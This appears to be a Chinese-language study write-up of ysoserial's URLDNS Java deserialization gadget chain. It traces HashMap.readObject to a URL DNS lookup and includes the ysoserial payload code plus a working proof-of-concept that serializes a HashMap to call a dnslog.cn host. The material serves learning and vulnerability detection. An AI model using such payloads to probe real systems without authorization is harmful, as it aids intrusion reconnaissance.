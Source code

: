 # Java安全学习—URLDNS链

Author: H3rmesk1t

# 前言
> `URLDNS`是`ysoserial`中的一条利用链，通常用于检测是否存在`Java`反序列化漏洞，该利用链具有如下特点

```php
[1] URLDNS 利用链只能发起 DNS 请求，并不能进行其它利用
[2] 不限制 jdk 版本，使用 Java 内置类，对第三方依赖没有要求
[3] 目标无回显，可以通过 DNS 请求来验证是否存在反序列化漏洞
```

# 原理
> `java.util.HashMap`实现了`Serializable`接口，重写了`readObject`, 在反序列化时会调用`hash`函数计算`key`的`hashCode`，而`java.net.URL`的`hashCode`在计算时会调用`getHostAddress`来解析域名, 从而发出`DNS`请求

# 分析过程
> 这里跟着`ysoserial`项目中`URLDNS`的`Gadget`来分析

```java
Gadget Chain:
    HashMap.readObject()
    HashMap.putVal()
    HashMap.hash()
    URL.hashCode()
```
> 先跟进`HashMap`，看看其自己实现的`readObject()`函数，这里通过`for`循环来将`HashMap`中存储的`key`通过`K key = (K) s.readObject();`来进行反序列化，在这之后调用`putVal()`和`hash()`函数

<img src="./images/1.png" alt="">

> 先跟进`hash()`函数看看是如何实现的，当`key!=null`时会调用`hashCode()`函数

<img src="./images/2.png" alt="">

> 跟进`hashCode()`函数，由于在`ysoserial`中的`URLDNS`是利用`URL`对象，于是跟进`Java`基本类`URL`中关于`hashCode()`的部分`java/net/URL.java`，由于`hashCode`的值默认为`-1`，因此会执行`hashCode = handler.hashCode(this);`

<img src="./images/3.png" alt="">

> 看看`handler.hashCode()`函数是如何实现的，这里利用一个`Demo`代码来调试看看

```java
import java.net.URL;

public class URLDemo {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://6ppzw1.dnslog.cn");
        url.hashCode();
    }
}
```
> 先看看请求之后的结果，成功触发了`DNS`请求，来看看是如何实现的

<img src="./images/4.png" alt="">

> 调试跟进`java/net/URLStreamHandler.java`中的`hashCode()`函数，可以看到这里调用了一个函数`getHostAddress()`来进行`DNS`解析返回对应的`IP`

<img src="./images/5.png" alt="">

> 在`ysoserial`中是通过`put()`函数来触发的，其实这一步的实现和前面的是一样的，都是通过`hash()`函数来实现的

<img src="./images/6.png" alt="">

> 但是上面的分析过程仿佛和反序列化并没有什么关联，其实当`HashMap`传入一个`URL`对象时，会进行一次`DNS`解析，并且`HashMap`实现了`Serializable`接口，重写了`readObject`，也就是说当一个`Java`应用存在反序列化漏洞时，可以通过传入一个序列化后的`HashMap`数据(将`URL`对象作为`key`放入`HashMap`中)，当传入的数据到达该`Java`应用的反序列化漏洞点时，这时程序就会调用`HashMap`重写的`readObject()`函数来反序列化读取数据，进而触发`key.hashCode()`函数进行一次`DNS`解析

# ysoserial 项目代码分析
> 在`ysoserial`项目中`URLDNS`的代码并没有这么简单，还有一些其他的代码段，来看看这些"多余的"代码的用处是啥

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap();
                URL u = new URL(null, url, handler);
                ht.put(u, url); 
                Reflections.setFieldValue(u, "hashCode", -1);
                return ht;
        }
        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }
                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```
> 这里通过继承`URLStreamHandler`类，重写`openConnection()`和`getHostAddress()`函数，而这里重写的目的在于: `HashMap#put`时也会调用`getHostAddress()`函数进行一次`DNS`解析，这里就是通过重写的`getHostAddress()`函数来覆盖掉原函数，从而使其不进行`DNS`解析，避免在`Payload`在创建的时候进行`DNS`解析

> 代码`Reflections.setFieldValue(u, "hashCode", -1);`中的`setFieldValue()`函数是`ysoserial`项目自定义的一个反射类中的函数

```java
public class Reflections {
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
}
```
> 上述代码通过反射来设置`URL`类的`hashCode`的值为`-1`，这是因为在`HashMap#put`时已经调用过一次`hashCode()`函数，`hashCode`的值会改变不再为`-1`，这样会导致在下一步经过`HashMap`的`readObject()`函数反序列化时直接返回`hashCode`的值，不再调用`handler.hashCode(this)`，因此利用反射来将`hashCode`的值设为`-1`

> 最后利用`PayloadRunner.run()`来进行反序列化

##  POC链

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.text.SimpleDateFormat;
import java.util.Date;
import java.util.HashMap;

public class URLDemo {

    public static void main(String[] args) throws Exception {
        Date nowTime = new Date();
        HashMap hashmap = new HashMap();
        URL url = new URL("http://lttx9f.dnslog.cn");
        SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy-MM-dd hh:mm:ss");
        Field filed = Class.forName("java.net.URL").getDeclaredField("hashCode");
        filed.setAccessible(true);  // 绕过Java语言权限控制检查的权限
        filed.set(url, 209);
        hashmap.put(url, 209);
        System.out.println("当前时间为: " + simpleDateFormat.format(nowTime));
        filed.set(url, -1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./dnsser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./dnsser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

> 从请求结果中可以看出，在`Payload`生成阶段并没有发起`DNS`解析，而是在后续反序列化过程中进行的请求

<img src="./images/7.png" alt="">